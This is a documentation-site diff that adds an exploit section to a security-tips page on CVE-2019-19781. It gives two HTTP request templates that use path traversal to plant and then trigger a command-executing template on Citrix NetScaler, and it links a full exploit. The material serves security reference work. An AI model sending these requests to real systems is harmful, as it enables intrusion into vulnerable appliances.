

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/cve/CVE-2019-19781.md, in a window 1280 px wide and 900 px high, scrolled down 512 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add exploit for CVE-2019-19781

````diff
--- a/docs/cve/CVE-2019-19781.md
+++ b/docs/cve/CVE-2019-19781.md
@@ -29,3 +29,28 @@ HTTP response:
 ```
 HTTP/1.1 403 Forbidden
 ```
+
+### Exploit
+
+A full exploit can be download [here](https://github.com/trustedsec/cve-2019-19781).
+It uses a python webshell, so you need a [listener](webshell.md). To exploit the
+vulnerability you need to perform 2 requests:
+
+- Create a new template file containing the RCE
+- Request the created file to execute the command
+
+```
+POST https://<host>:<port>/vpn/../vpns/portal/scripts/newbm.pl
+User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:71.0) Gecko/20100101 Firefox/71.0
+NSC_USER: ../../../netscaler/portal/templates/<filename>
+NSC_NONCE: <nounce>
+
+url=127.0.0.1&title=<payload>&desc=desc&UI_inuse=a
+```
+
+```
+GET https://<host>:<port>/vpn/../vpns/portal/<filename>.xml
+User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:71.0) Gecko/20100101 Firefox/71.0
+NSC_USER: <randomuser>
+NSC_NONCE: <nounce>
+```
````
